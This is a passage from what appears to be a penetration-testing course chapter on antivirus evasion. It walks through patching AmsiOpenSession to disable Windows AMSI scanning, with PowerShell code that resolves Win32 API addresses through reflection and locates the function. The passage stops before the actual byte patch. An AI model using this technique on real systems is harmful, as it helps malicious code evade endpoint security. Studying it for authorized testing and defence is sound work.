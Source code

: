 (Wikipedia, 2020), [https://en.wikipedia.org/wiki/Zero\_flag](https://en.wikipedia.org/wiki/Zero_flag) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fnref-local_id_317-1)

2

(Intel Pentium Instruction Set Reference), [http://faydoc.tripod.com/cpu/je.htm](http://faydoc.tripod.com/cpu/je.htm) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fnref-local_id_317-2)

3

(Intel Pentium Instruction Set Reference), [http://faydoc.tripod.com/cpu/xor.htm](http://faydoc.tripod.com/cpu/xor.htm) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fnref-local_id_317-3)

#### 10.4.2. Patching the Internals

In this section, we'll complete the attack and modify the first instruction of _AmsiOpenSession_ directly from PowerShell with the help of Win32 APIs.

To implement the attack, we'll need to perform three actions. We'll obtain the memory address of _AmsiOpenSession_, modify the memory permissions where _AmsiOpenSession_ is located, and modify the three bytes at that location.

In order to resolve the address of _AmsiOpenSession_, we would typically call _GetModuleHandle_[1](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-1) to obtain the base address of AMSI.DLL, then call _GetProcAddress_.[2](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-2) We previously used reflection to accomplish this with the in-memory PowerShell shellcode runner.

As part of the shellcode runner we created, the _LookupFunc_ method called both _GetModuleHandle_ and _GetProcAddress_ from the _Microsoft.Win32.UnsafeNativeMethods_ namespace as shown in Listing 42.

```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

> Listing 42 - PowerShell method that resolves Win32 APIs through reflection

We can use this function like any other Win32 API to locate _AmsiOpenSession_ by opening a 64-bit instance of PowerShell\_ISE and executing the code shown in Listing 43:

```
PS C:\Users\Offsec> function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
```